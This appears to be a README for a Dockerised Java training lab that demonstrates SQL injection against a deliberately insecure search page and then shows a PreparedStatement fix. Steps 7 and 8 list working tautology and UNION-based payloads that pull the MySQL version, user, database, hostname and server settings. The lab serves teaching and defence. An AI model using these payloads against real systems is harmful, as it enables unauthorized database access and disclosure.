

# Java-SQLinjection-1

## What is Sql Injection ?

In this section, we'll explain what SQL injection is, describe some common examples, explain how to find and exploit various kinds of SQL injection vulnerabilities, and summarize how to prevent SQL injection.

Owasp : https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

Step 1: Open a new terminal and access directory

     cd sql-injection

Step 2: Build the project

    docker run -it --rm --name my-maven-project -v "$(pwd)":/usr/src/mymaven -w /usr/src/mymaven maven:3.3-jdk-8 mvn compile exec:java

Step 3: Now start the app

    docker-compose up -d

Step 4: In the browser, access 

    http://<server-ip>:8888/SQLInjection/insecure

Step 5: Create some dummy users

Step 6: In the search bar search for any user you have created based on first name

Step 7: Now test for SQL Injection payload

    ' or '1=1

Step 8: You can also try with these payloads To get mysql version

    a' UNION ALL SELECT null,version(),null,null'

You will see a mysql version under the header First Name

To get the logged in mysql user

    
    a' UNION ALL SELECT null,CURRENT_USER(),null,null'

You will see the current mysql user under the header First Name

To get the current database

    a' UNION ALL SELECT null,DATABASE(),null,null'

You will see the database name under the header First Name

    a' UNION ALL SELECT null,system_user(),null,null'
    a' UNION ALL SELECT null,@@GLOBAL.innodb_data_file_path,null,null'
    a' UNION ALL SELECT null,@@GLOBAL.bind_address,null,null'
    a' UNION ALL SELECT null,@@GLOBAL.version_compile_os,null,null'
    a' UNION ALL SELECT null,@@GLOBAL.version_compile_machine,null,null'
    a' UNION ALL SELECT null,@@GLOBAL.tls_version,null,null'
    a' UNION ALL SELECT null,@@GLOBAL.block_encryption_mode,null,null'
    a' UNION ALL SELECT null,@@GLOBAL.default_authentication_plugin,null,null'
    a' UNION ALL SELECT null,@@GLOBAL.hostname,null,null'
    a' UNION ALL SELECT null,@@GLOBAL.secure_file_priv,null,null'
    a' UNION ALL SELECT null,@@GLOBAL.hostname,@@GLOBAL.bind_address,CURRENT_USER()'
    a' or '1=1
    test' UNION ALL SELECT NULL,NULL,CONCAT(0x7176707a71,IFNULL(CAST(CURRENT_USER() AS CHAR),0x20),0x717a626a71),NULL-- 

Defend

Step 1: On the browser, access http://<server-ip>:8888/SQLInjection/secure

Step 2: In the search bar search for any user you have created based on first name

Step 3: Now test for SQL Injection payload

    ' or '1=1

This should not return any value

Here the fix is a PreparedStatement query from line numbers 87 to 90 in the file 
/src/main/java/mhn/training/labs/Secure.java

